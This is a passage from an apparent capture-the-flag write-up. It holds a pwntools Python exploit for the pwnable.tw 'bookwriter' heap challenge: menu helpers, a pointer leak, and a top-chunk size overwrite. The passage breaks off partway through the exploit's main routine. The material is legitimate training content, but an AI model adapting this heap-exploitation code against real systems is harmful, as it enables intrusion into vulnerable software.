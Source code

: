 ```bash
  },
  vtable = 0x2074a010
}
```

### Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bookwriter_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10304)

    return r

def add_page (p, size, content):
    p.sendafter (b'Your choice :', b'1')
    p.sendafter (b'Size of page :', size)
    p.sendafter (b'Content :', content)

def view_page (p, id):
    p.sendafter (b'Your choice :', b'2')
    p.sendafter (b'Index of page :', id)

def edit_page (p, id, content):
    p.sendafter (b'Your choice :', b'3')
    p.sendafter (b'Index of page :', id)
    p.sendafter (b'Content:', content)

def info (p, status, author, old_author):
    p.sendafter (b'Your choice :', b'4')
    p.recvuntil (old_author)
    current_author = u64 (p.recv (4) + b'\x00' * 4)

    p.sendlineafter (b'Do you want to change the author ? (yes:1 / no:0) ', status)
    if status == b'1':
        p.sendafter (b'Author :', author)

    return current_author

def main():
    p = conn()
    p.sendafter (b'Author :', b'A' * 64)

    add_page (p, b'24', b'A' * 24)
    edit_page (p, b'0', b'A' * 24)
    edit_page (p, b'0', b'A' * 24 + b'\xe1\x0f\x00')

    add_page (p, b'4096', b'1')

```